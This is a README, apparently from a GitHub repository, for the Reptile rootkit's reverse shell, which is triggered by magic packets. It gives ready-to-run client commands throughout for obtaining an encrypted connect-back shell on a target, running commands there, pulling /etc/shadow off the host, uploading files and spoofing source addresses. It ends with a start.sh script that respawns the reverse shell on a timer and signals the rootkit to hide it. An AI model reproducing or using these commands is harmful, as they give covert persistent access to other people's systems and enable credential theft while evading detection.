 # Reptile Shell

This shell is a user-mode-helper called by Reptile Kernel Module when is triggered with a magic ICMP/TCP/UDP packet. Based on Tiny SHell by Christophe Devine. Thanks Christophe! ;)

## Features

- Full TTY/PTY encrypted shell
- Download/Upload files
- Run standalone commands
- Loop to connect back each X times (not default)

## Usage

- To send magic packets and get a shell:
```
./reptile_client -t <target IP> -x <magic packet protocol> -l <your IP> -p <your port>
```
- To run standalone command (pay attention on quotes):
```
./reptile_client -t <target IP> -x <magic packet protocol> -l <your IP> -p <your port> -a "cat /etc/passwd" 
```
- To download/upload a file (pay attention on quotes):
```
./reptile_client -t <target IP> -x <magic packet protocol> -l <your IP> -p <your port> -a "get /etc/shadow /tmp"
./reptile_client -t <target IP> -x <magic packet protocol> -l <your IP> -p <your port> -a "put file.txt /root"
```
- To just stay listening connections:
```
./reptile_client -t <target IP> -x listen -l <your IP> -p <your port>
```
- If you wanna spoof the source IP address of magic packets, use: `-s <spoof IP>`
- You can configure `start.sh` to always start reptile_shell daemon and spawn a reverse shell each X time:
```
#!/bin/bash
#
# You can customize it!

kill -50 0

# Uncomment this line and set the paramethers if you want to spawn
# reptile_shell as a loop that will connect to your host each time
#
# /reptile/reptile_shell -t <ip> -p <port> -r <time in seconds>

kill -49 `ps -ef | grep reptile_shell | grep -v grep | awk '{print $2}'`
```
